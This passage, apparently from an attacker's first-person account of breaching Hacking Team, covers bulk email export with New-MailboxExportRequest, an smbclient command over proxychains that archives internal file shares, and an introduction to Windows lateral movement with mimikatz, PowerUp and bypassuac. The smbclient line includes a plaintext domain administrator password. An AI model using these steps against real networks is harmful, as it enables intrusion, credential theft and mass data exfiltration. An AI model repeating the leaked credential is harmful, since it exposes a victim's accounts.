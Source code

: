 [1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz


--[ 11 - Downloading the mail ]-------------------------------------------------

With the Domain Admin password, I have access to the email, the heart of the
company. Since with each step I take there's a chance of being detected, I
start downloading their email before continuing to explore. Powershell makes
it easy [1]. Curiously, I found a bug with Powershell's date handling. After
downloading the emails, it took me another couple weeks to get access to the
source code and everything else, so I returned every now and then to download
the new emails. The server was Italian, with dates in the format
day/month/year. I used:
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

with New-MailboxExportRequest to download the new emails (in this case all
mail since June 5). The problem is it says the date is invalid if you
try a day larger than 12 (I imagine because in the US the month comes first
and you can't have a month above 12). It seems like Microsoft's engineers only
test their software with their own locale.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/


--[ 12 - Downloading Files ]----------------------------------------------------

Now that I'd gotten Domain Admin, I started to download file shares using my
proxy and the -Tc option of smbclient, for example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

I downloaded the Amministrazione, FAE DiskStation, and FileServer folders in
the torrent like that.


--[ 13 - Introduction to hacking windows domains ]------------------------------

Before continuing with the story of the "weones culiaos" (Hacking Team), I
should give some general knowledge for hacking windows networks.


----[ 13.1 - Lateral Movement ]-------------------------------------------------

I'll give a brief review of the different techniques for spreading withing a
windows network. The techniques for remote execution require the password or
hash of a local admin on the target. By far, the most common way of obtaining
those credentials is using mimikatz [1], especially sekurlsa::logonpasswords
and sekurlsa::msv, on the computers where you already have admin access. The
techniques for "in place" movement also require administrative privileges
(except for runas). The most important tools for privilege escalation are
PowerUp [2], and bypassuac [3].

[1] https://adsecurity.org/?page_id=1821
[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[3] https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1
